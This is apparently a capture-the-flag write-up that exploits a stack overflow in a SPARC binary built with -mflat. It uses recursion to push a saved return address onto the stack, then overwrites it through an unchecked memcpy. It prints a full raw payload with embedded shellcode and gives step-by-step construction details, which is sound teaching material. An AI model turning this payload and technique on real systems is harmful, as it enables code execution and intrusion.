# Secret Pwnhub Academy Rewards Club

 

```txt
You are part of the club now. To vet you further, we take away a little setup cheat which we used to build your previous trial (hint: -mflat). That said, let's look at another shade of architecture feature...

files: https://pwnhub.fluxfingers.net/static/chall/secret-pwnhub-academy-rewards-club-2_3b5e67d96269302d7a4521bda1cc1049.zip
nc flu.xxx 2025
```

---

## TL;DR

Use the `rec()` function to recurse often enough so that the first call's return pointer will be stored on the stack again. Then overflow into this return address and redirect to custom shellcode.

Something like this will do just fine (`exploit.py` can be found [here](./exploit.py)):

```txt
b'112222234PXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX\xff\xff\xe9\xf8\xff\xff\xebPXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX-\x0b\xd8\x9a\xac\x15\xa1n/\x0b\xdc\xda\x90\x0b\x80\x0e\x92\x03\xa0\x08\x94"\x80\n\x9c\x03\xa0\x10\xec;\xbf\xf0\xd0#\xbf\xf8\xc0#\xbf\xfc\x82\x10 ;\x91\xd0 \x10XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX'
```

## Detailed

Let's start off by taking a closer look at what the task description is referring to when it mentions `-mflat`.

It definitely looks like a command line parameter/flag... probably a compiler flag? Let's take a look at [GCC's manual](https://gcc.gnu.org/onlinedocs/gcc/SPARC-Options.html) for compiling SPARC programs... Found something! ^^

```txt
-mflat
-mno-flat

    With -mflat, the compiler does not generate save/restore instructions and uses a “flat” or single register window model. This model is compatible with the regular register window model. The local registers and the input registers (0–5) are still treated as “call-saved” registers and are saved on the stack as needed.

    With -mno-flat (the default), the compiler generates save/restore instructions (except for leaf functions). This is the normal operating mode.
```

... _umm_ ... that doesn't sound too good. According to this manual the program will no longer create `save/restore` instructions that _save_ the previous functions `frame pointer`, `program counter`, etc. to the stack and _restore_ these values at the end?! Well... this will definitely make code redirection more difficult?! We'll definitely keep this in mind, but let's just move on for now...

From the last challenge we already know that the biny uses the `SPARC` architecture, however, let's once again scan for any enabled security measures:



... yay! Some good news ^^! It doesn't seem like much has _improved_ from the last challenge... That's nice... Let's use `Ghidra` to see if we find anything exploitable now:



... _hmm_ ... `main()` has definitely changed in comparison to the last binary... No more calls to `setup()` or `fn()` ... Also, this time, there seems to be no overflow when reading from `stdin`. `auStack512` is `512 bytes` long, like the name suggests, and is filled with a maximum of `512 bytes` when calling the `read()` function on line 13.

Still, let's take a look at `rec()` - there might be something interesting there!



... well definitely more action than in main :P. Let's take a look at this function's most _noteable_ attributes:

* it iterates over an array pointed to by `buf`
  * `buf` is set in `main()` - it points to the input
* if the character `buf` is currently pointing to is either a `1`, `2` or `3`, the function will call itself again - it'll _recurse_ (I wonder where the function's name comes from ... ^^)
  * depending on where in the function the comparison and recursive call happens, either `buf` will be changed so that it points to the next character in the input string or the _character code_ at position `buf` will be increased by one (`A` becomes `B`, etc.).
* whenever `buf` points to the character `4`, the function will copy `buf[1]` bytes (max 255) from the input space to a small buffer (only 16 bytes) created at the beginning of `rec()`
  * ... I think we've found something we can overflow! This copies a variable amount of bytes (`buf[1] ∈ [0,255]`) to the functions frame on stack ...

Where would we want to overflow to, however? Doesn't the `-mflat` option prevent return pointers from being stored on the stack? Well... we didn't do too much research on this topic, but some logical thinking helped us to come to the right conclusion as well:

You can only keep so many return addresses in registers (or similar _limited/static_ spaces)... Surely... if we create a large enough call stack, older return pointers would have to be stored on the stack to make room for newer ones. Sure sounds like a nice theory - let's test it!

This is actually not too hard. Simply give a large amount of `1`s, `2`s or `3`s as input and follow program execution in GDB. Perhaps using `define hook-stop` might be a good idea...

```bash
$ ./run_docker_gdbserver.sh
$ python -c "print('2'*32)" | nc localhost 4444
```

... let's break right after the `save` instruction at the very to of `rec()` and step through the program...

```txt
b *0x000102a8
define hook-stop
  x/256wx $sp
end
```



... okay! We can see the first `rec()` call's stack frame and down below what seems to be `main()`'s stack frame with the input buffer starting at `0xffffea58` ... now... let's continue and see if anything changes - if any values will be stored on the stack...



... would you look at that! After hitting the breakpoint just 7 times, `main()`'s stack frame seems to have become a bit more populated... Especially the two highlighted values are interested since they point at the stack- and code space respectively ... Let's see if there are any instructions belonging to a function at `0x12874` ... 



... that seems about right! This could be `main()`'s return address, since `__libc_main` usually initiates the program... Why not verify that return address will be stored on the stack by continuing to the breakpoint one more time:



... gotcha! This first address looks unbelievably similar to `main()`'s stack pointer, doesn't it? Could it by any chance be the saved stack pointer?... Let's inspect the second address `0x10538` next - if this points to the instruction in `main()` where `rec()` is being called, then all our assumptions must be true!



... **nice!** (_In case you're a bit confused as to why the return address points to where the function is being called and not the first instruction after this, like in x86 - as I already mentioned in the first writeup, this is just a thing with `SPARC`. To still return to the correct address it always returns to <return_address>+8, however._)

Ok! Considering that `rec()` gives us the ability to overflow 240 bytes, by writing 256 bytes into a 16 byte buffer, we should have the abililty to overwrite this stored return address!

Let's first do a manual test run using GDB, however, just to confirm that this stored value is actually being used and see when it is loaded:

Remember the `o7` and `i7` registers I talked about in the previous writeup? We'll need them here. Let's redefine our `hook-stop` and break right at the `rec()` function's restore instruction at the very end of the function:

```txt
b *0x00010500
define hook-stop
  i r pc o7 i7 sp fp
  x/4i $pc
end
```

... now... we overwrite `rec()`'s return address on the stack with some random value like `0x12345`:

```txt
set *0xffffe9c4=0x12345
```

... let's continue debugging!



... after continuing for a while, we'll finally hit the breakpoint at `restore` for the first time. Notice that both the `o7` (the current function's return address - will obtain `i7`'s value when the `restore` instruction is executed) and `i7` (the next function's return address - will be updated when `restore` is executed) registers contain the same address. Which, as a quick gdb command can confirm, points to the location in `rec()` where the recursion happens:



... this is a sign that we're still in the recursion. Let's now continue until we arrive at the function that the first `rec()` called:



Right... nothing too off about this, is there? Let's see if our modified return address gets loaded into `i7` once `restore` is executed: use `si`



_Tadaa!_ Yes! It looks as though we've successfully redirected code execution! If we continue stepping through the program, we'll see how the modified address moves through the registers after each `restore` until it finally arrives in `pc`, once the last `rec()`s `retl` has been executed:




All we needed to do now was to create a script that would abuse the behaviour the recursions cause plus the unsafe call to `memcpy()` in the `rec()` function to overflow into the return pointer.

You can find the complete `exploit.py` script [here](./exploit.py) if you want to take a look at it. Here's a summary of what it does:

1. use the string `21222223` at the beginning of the payload to make the function recurse 7 times and therefore store the first `rec()`'s return address on stack - the `3` at the end serves the purpose of exiting from the recursive functions again.
2. then, use `4\x50` + a padding of `0x48` bytes + the new `stack pointer` + the new `program counter` to overwrite both the stack pointer and the program counter with the new values.
3. and last but not least, after padding the already constructed part of the payload to a length of `0x100` bytes, append the shellcode you want to redirect to. We used the same one as in the previous challenge.

After executing the script, all that was left to do was to once again use a simple `cat` to retrieve the flag: `flag{unwindowing_on_th3_beach}`
